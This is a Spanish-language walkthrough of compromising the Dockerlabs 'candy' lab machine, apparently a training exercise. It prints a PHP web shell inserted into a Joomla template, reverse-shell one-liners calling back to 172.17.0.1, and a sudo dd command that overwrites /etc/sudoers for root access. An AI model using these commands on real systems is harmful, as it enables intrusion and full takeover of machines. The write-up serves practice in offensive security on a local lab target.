 Desplegamos la máquina vulnerable poniendo en la terminal la línea de comandos **bash auto_deploy.sh candy.tar** en la carpeta donde se encuentre el contenido extraído del zip.<br>
<ins>La dirección IP de la máquina a vulnerar siempre es la 172.17.0.2</ins>.

  ![image](https://github.com/user-attachments/assets/469e1cf6-68d3-43b5-bd8c-be025e6b1d24)

Ahora, realizamos un escaneo de puertos de la máquina para revisar los puertos abiertos existentes y los posibles servicios a atacar mediante el uso de esos puertos.

  ![image](https://github.com/user-attachments/assets/a419fc48-e7fd-4bff-8bb9-7392d663f5db)

Podemos ver que se encuentra abierto únicamente el puerto ***80***, correspondiente al servicio ***HTTP***.

Vamos a visualizar la página web. Para ello, escribimos http://172.17.0.2:80 en el navegador.

  ![image](https://github.com/user-attachments/assets/5656e3a3-f334-485b-a4ca-4d9f9feff70c)

Vamos a obtener los subdirectorios existentes en la página web para conseguir visualizar otras páginas que puedan darnos más información. Debido a que revisando el código fuente de la página y mediante el uso del comando ***ffuf*** para realizar fuzzing no detectamos nuevas páginas, vamos a emplear un comando similar llamado ***gobuster***, con el que obtendremos las páginas existentes en distintos formatos. En este caso, vamos a buscar aquellas que tengan extensión .*html*, .*php*, .*js*, .*txt*.

  ![image](https://github.com/user-attachments/assets/c67c5834-46d1-42a0-aa01-9afd7d757d1b)

Nos salen muchos resultados, pero en este caso nos llama la atención el archivo de texto "**robots.txt**". Buscamos la ruta y visualizamos su contenido en la web:

  ![image](https://github.com/user-attachments/assets/9d0e7b7a-6af1-446d-948a-162572ca82fe)

Podemos ver que la página web se ha realizado con el CMS *Joomla*, así que ahora nos dirigimos a la ruta de Administración del servicio (http://172.17.0.2/administrator).

  ![image](https://github.com/user-attachments/assets/5568138b-c3ca-457a-b629-f42f37567a97)

Ingresamos las claves obtenidas:

  ![image](https://github.com/user-attachments/assets/e001d566-bc26-412a-83a8-70afd23b80a6)

  ![image](https://github.com/user-attachments/assets/ce5e1e1c-64f0-4680-be0e-1b7610413f56)

Ya que nos ha salido un mensaje de alerta de que las claves ingresadas no son correctas, comprobamos si la contraseña se encuentra cifrada, debido a que es un poco extraña.

  ![image](https://github.com/user-attachments/assets/e6bddafb-fa60-4c73-8c8b-da3cd2b593f7)

La contraseña de Joomla del usuario "admin" es "**sanluis12345**".

  ![image](https://github.com/user-attachments/assets/627a5578-6b27-4d4f-a4dd-9691b28aa129)

Ahora sí, las claves del usuario son correctas.

Intentamos acceder a la máquina víctima mediante un **ataque SSTI** (*Server-Side Template Injection*). Para ello nos dirigimos a **System>Site Templates** y hacemos clic en la plantilla existente.

  ![image](https://github.com/user-attachments/assets/fb99d2e8-65b8-46cb-82fc-bb4827101751)

Ahora pulsamos en el fichero "**error.php**" y modificamos el contenido añadiendo lo siguiente:

  ![image](https://github.com/user-attachments/assets/9e525a16-0853-412a-952d-dc66522fb849)

Luego, lo visualizamos en la web para ver si se muestra a los usuarios.

  ![image](https://github.com/user-attachments/assets/6e10b823-22ae-4f87-a8b5-5b5c6697c8aa)

Efectivamente, el servidor web es vulnerable al ataque STTI y posiblemente sea también vulnerable al **ataque RCE** (*Remote Code Execution*), el cual consiste en ejecutar código malicioso de manera remota, pudiendo ejecutar comandos del sistema o acceder a este mismo mediante una *reverse shell*.

Para esto, ingresamos el código:<br>
**&lt;?php system($_GET["cmd"]); ?&gt;**

  ![image](https://github.com/user-attachments/assets/5e24c3a9-02f1-4ca3-b3f2-c8253d6523a5)

Si queremos ejecutar un comando del sistema tendremos que escribir la dirección URL (http://172.17.0.2/index.php/templates seguido de la cadena de texto "***?cmd=***" y el comando que queramos arrancar. Probamos con el comando *id* para conocer el usuario actual:

  ![image](https://github.com/user-attachments/assets/ace489f6-065e-4fdb-a911-12b0196450ed)

Somos el usuario *www-data*, cuyo ID de usuario es el 33.

Buscamos la página de [RevShells](https://www.revshells.com/) para ejecutar una reverse shell:<br>
**bash -c \ "bash -i >& /dev/tcp/172.17.0.1/443 0>&1\ "'**

Codificamos el texto para que sea funcional usando Burp Suite.

  ![image](https://github.com/user-attachments/assets/23c9b5ca-a31f-4e36-b9ed-7e8b1b4b93cd)

Nos ponemos con NetCat en escucha por el puerto 443:

  ![image](https://github.com/user-attachments/assets/b21fcc0e-d02c-488a-907d-d6ba07883edd)

  ![image](https://github.com/user-attachments/assets/5b7e29e4-9b73-4d42-9249-1033bd3d68d5)

Hemos accedido al sistema como el usuario "www-data". Para evitar que se cierre nuestra sesión remota, ejecutamos otra reverse shell.<br>
**bash -c "bash -i >& /dev/tcp/172.17.0.1/444 0>&1"**

  ![image](https://github.com/user-attachments/assets/a63b5bba-76ed-4de4-b38c-747129d6c5c7)

  ![image](https://github.com/user-attachments/assets/275fc003-86a3-482f-b3a9-a3d5d4fc30a6)

En este momento ya podríamos empezar a intentar realizar una escalada de privilegios, para acceder al sistema como un usuario privilegiado; o inclusive, como el usuario root.

Revisando los archivos del subdirectorio actual, nos percatamos de que existe un archivo PHP denominado "**configuration.php**", por lo que revisamos su contenido:

  ![image](https://github.com/user-attachments/assets/7839427b-7900-416a-919a-87570faca2a2)

Nos encontramos con una posible contraseña de un usuario existente en el sistema (aparte del usuario www-data).

  ![image](https://github.com/user-attachments/assets/f411b404-cd12-4b8f-8ec2-dbcdfe0e1f15)

Miramos en el directorio "home" los usuarios que hay en la máquina víctima:

  ![image](https://github.com/user-attachments/assets/c23e4640-8e79-48d9-9876-d81d5edd8c5f)

Nos encontramos con 2 usuarios, el usuario "luisillo" y el usuario "ubuntu", que viene por defecto en aquellas máquinas con el sistema operativo Linux Ubuntu.

Probamos a acceder como luisillo:

  ![image](https://github.com/user-attachments/assets/a03dc027-878b-486c-9321-e2c6feb75c7b)

Al parecer la clave encontrada en el PHP no es la contraseña de este usuario, por lo que seguimos buscando.

Buscando en el SUID del usuario, podemos ver que hay un archivo de texto, el cual podemos visualizar sin ser su propietario, lo cual puede suponer una amenaza para el sistema.

  ![image](https://github.com/user-attachments/assets/c9997889-e59a-4b45-906c-5f6aa8b0ac7f)

Miramos el contenido del fichero:

  ![image](https://github.com/user-attachments/assets/b9c115b3-efde-4535-b8a9-3675fb3bea05)

La contraseña del usuario "**luisillo**" es "**luisillosuperpassword**".

Probamos otra vez a ejecutar el comando su luisillo para acceder como este:

  ![image](https://github.com/user-attachments/assets/0acd4b9a-a523-41a4-9187-6885d2d751e3)

Ahora somos el usuario "luisillo".

Miramos con el comando **sudo -l** los archivos binarios que puede ejecutar el usuario actual de manera privilegiada.

  ![image](https://github.com/user-attachments/assets/e6bc952f-7ccd-4304-88d4-e4f71d758395)

Vemos que somos capaces de ejecutar el binario /bin/dd como usuario root, sin necesidad de ingresar ninguna contraseña en la CLI.

Buscamos en [GTFOBins](https://gtfobins.github.io/) acerca del binario ***/bin/dd***.

  ![image](https://github.com/user-attachments/assets/8eabc8c6-550d-4671-8843-ece35b80fa03)

**echo "luisillo ALL=(ALL:ALL) ALL" | sudo /bin/dd of=/etc/sudoers**

  ![image](https://github.com/user-attachments/assets/e4c83e14-4b1c-4d35-8d70-56c5e69aab2d)

  ![image](https://github.com/user-attachments/assets/4f9315eb-68c4-4bfb-b604-5a1f5d6523ef)

Finalmente, somos el usuario root, por lo que contamos con todos los privilegios existentes en el sistema.

Una vez finalizamos con la máquina de Dockerlabs presionamos **Ctrl+C** para eliminarla.

  ![image](https://github.com/user-attachments/assets/90794c8c-dc34-4a6e-a558-2bb1c5eba2b4)
